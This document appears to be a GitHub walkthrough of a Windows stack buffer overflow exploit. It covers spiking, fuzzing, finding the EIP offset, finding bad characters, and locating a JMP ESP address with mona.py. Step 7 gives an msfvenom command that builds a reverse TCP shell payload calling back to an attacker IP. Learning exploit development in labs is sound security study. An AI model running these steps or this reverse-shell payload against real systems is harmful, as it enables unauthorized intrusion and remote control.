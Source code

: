## BOF Walkthru:

# Stack explanation:
ESP at the top of the buffer
Buffer Space
EBP at the bottom of the buffer
EIP (points to return address for a function)

Buffer space should contain characters you are using - 
BOF attack is when buffer overflows EBP, overwrites EIP (with malicious shellcode)

# Step 1: Spiking
throw a bunch of characters at avail commands to determine which one is vulnerable
use a tool called generic_send_tcp
generic_send_tcp <host> <port> <spike script> 0 0
by testing different spike scripts we can dtermine which command is vuln to bof
other way to test commands:
`nc <target-ip> <port number>
> output from vuln services`

# Step 2: Fuzzing
Use a python script, open a socket connection to vulnerable program, send more and more bytes in the buffer until the program crashes
after performing spike tests, we can use a python script to determine the buffer length 
at whcih the vulnerable program crashes (saved as 1.py)
crashes at ~5400 bytes or ~3000 bytes
we have automated this step with the script: fuzzTest.py
run using command:
`python fuzzTest.py --h <target-ip> --p <target-port> --cmd <command>`


# Step 3: Finding the Offset
now that we have the number of bytes program crashes at, we need to know at what offset we gain control of EIP
use metasploit pattern create to find the offset by creating a pattern:

`msf-pattern_create.rb -l <buffer-length as dtrmnd in last step>`

send pattern as buffer in our python script, crash vuln program
look at the value in eip register
use command, pass in value at eip in argument -q

`msf-pattern_offset.rb -l <buffer length> -q <value in EIP>`

This will give us the offset location
now we know at what byte length we can control eip

we have automated this step with the script offsetTest.py
use the command:
`python offsetTest.py --h <target-ip> --p <target-port> --cmd <command> --l <byte length at which overflow occurs, taken from previous step>`
then inspect immunity debugger and copy down the value in the eip register
then use msf-pattern_offset to determine the offset

# Step 4: Overwrite EIP
Test to make sure we can control EIP
Change the buffer to be of length X (offset from previous step)
followed by 4 letters (BBBB or CCCC to be easy to spot)
send the buffer to the program, crash it
check value of EIP
It should contain the bytes matching BBBB or CCCC
we have automated this using the script controlTest.py
run using the command:
`python controlTest.py --h <target-ip> --p <target-port> --cmd <command> --offset <offset determined from last step>`

# Step 5: Find Bad characters
Before we generate a payload, we want to know what characters will be corrupted if past to the program
Go to 
`https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/`
and copy the string of character bytes.
add them to the end of our buffer, send it an crash the program

In Immunity Debugger, we can use mona.py to find which badchars dont make it thru:
use this command to generate a bytearray of chars:
`!mona bytearray` 
And use this command to see which characters did not make it through
`!mona compare -f bytearray.bin -a 0x<address where array of chars begins in the stack> `
this should give us a pop up window with the badchars listed
Make sure to copy them somewhere
after finding bad characters, remove them from the byte array in our script and in immunity debugger
tell mona ot create a new bytearray without detected bad characters using command:
`!mona bytearray -cpb "\x00"`

# Step 6: Find right module
We want to find a module in the vulnerable program with no memory protection
in Immunity Debugger, use this command to get a table of modules
`!mona modules`
the module we want to target should have the value false for the columns ASLR and DES - even better if false in each column!
The next step depends on what we want our payload to do
In most situations, we want to direct the program to the beginning of our payload at the top of the stack
To do this we need to find address for the command JMP ESP
In Kali Linux, use the tool nasm_shell

`msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
> jmp esp
>output: FFE4 (to save time ust refer here)`

Back in Immunity Debugger, use the following command to find the memory address(es) in the vulnerable module with the code jmp esp:

in mona.py, use cmd `!mona find -s '\xff\xe4' -m <vulnerable module>`

this gives us a memory address to overwrite - copy it
because of x86 architecture we may have to write bytes for rtn address in reverse order
now that we have full control of eip, we can give it this memory address to point to our shellcode

# Step 7: Generate Shellcode
use msfvenom to gen payload shellcode
examples:
`msfvenom -p windows/shell_reverse_tcp  -f python --var-name payload -b "\x00" LHOST=192.168.111.130 LPORT=1234 EXITFUNC=thread

msfvenom -p windows/exec -b "\x00\x01\x0a" -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread --smallest`


-p: type of payload
-b: bad characters to exclude
-f: programming language of payload 
--var-name: name of buffer holding payload
Make sure EXITFUNC=thread so that payload exits cleanly, doesnt crash target program

copy payload into our buffer
run python script to crash program, execute payload
if payload doesnt work right away, try adding some nops ("\x90") between pointer adress and payload



# Step 8: Profit!

